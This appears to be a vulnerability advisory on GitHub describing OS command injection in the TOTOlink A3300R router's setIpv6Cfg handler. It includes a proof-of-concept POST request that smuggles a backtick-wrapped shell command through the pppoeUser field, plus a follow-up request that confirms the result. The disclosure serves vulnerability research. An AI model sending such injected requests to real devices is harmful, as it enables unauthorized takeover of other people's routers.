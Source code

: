# TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setIpv6Cfg` request,`pppoeUser`or `pppoePass`parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=DFFE288434C4FC2A HTTP/1.1
Host: itotolink.net
Content-Length: 235
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/ipv6.html?token=DFFE288434C4FC2A
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"dnsAutoFake":"1","lanAutoFake":"1","wanDhcp":"2","wanPriv":"0","lanRadvFake":"1","lanDhcp":"1","pppoeUser":"yy`ls>/web/cmdi7.txt`","pppoePass":"1234","pppoeServiceName":"","pppoeMtu":"1492","service":"pppoe6","topicurl":"setIpv6Cfg"}
```

injection the command "ls>/web/cmdi7.txt"

![image-20240119125319849](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240119125319849.png)

check the result.

```
GET /cmdi7.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 09:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://itotolink.net/wizard.html?token=C86034DE71B6FBEB
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119125609275](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240119125609275.png)

## Analysis

sub_422380 get `pppoeUser` parameter from request body

![image-20240119131956114](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240119131956114.png)

then pass to sub_41ECF8 function which handle `setIpv6Cfg` request

![image-20240119132112844](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240119132112844.png)
